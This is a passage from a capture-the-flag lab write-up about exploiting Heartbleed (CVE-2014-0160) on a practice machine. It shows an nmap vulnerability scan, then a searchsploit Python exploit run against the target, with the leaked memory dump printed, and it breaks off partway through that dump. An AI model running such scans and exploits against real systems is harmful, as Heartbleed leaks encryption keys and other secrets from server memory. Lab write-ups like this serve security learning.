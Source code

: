 I did a reverse image search on Google and didn't get any direct results. But I already knew this box was a Heartbleed theme based on the red heart in the image. [The Heartbleed Bug](https://heartbleed.com/) was pretty interesting. Instead of me also talking about it, read the provided link or any of the other hundreds of articles out there.

To check if the target is vulnerable to Heartbleed, we can run a `nmap` script.

```none
nmap -d --script ssl-heartbleed --script-args vulns.showall -sV -p 443 10.10.10.79
```

And the results show we have a vulnerable system.

```none
PORT    STATE SERVICE  REASON  VERSION
443/tcp open  ssl/http syn-ack Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       http://www.openssl.org/news/secadv_20140407.txt 
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|_      http://cvedetails.com/cve/2014-0160/
```

## Running Heartbleed

From here we can attempt to exploit the Heartbleed vulnerability. To find a suitable exploit I used `searchsploit heartbleed` and selected the exploit that had a Python script. Then run the script with the IP address as the only argument.

```none
└─$ python 32764.py 10.10.10.79
Trying SSL 3.0...
Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0300, length = 94
 ... received message: type = 22, ver = 0300, length = 885
 ... received message: type = 22, ver = 0300, length = 331
 ... received message: type = 22, ver = 0300, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0300, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 00 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 30 2E 30 2E  ....#.......0.0.
```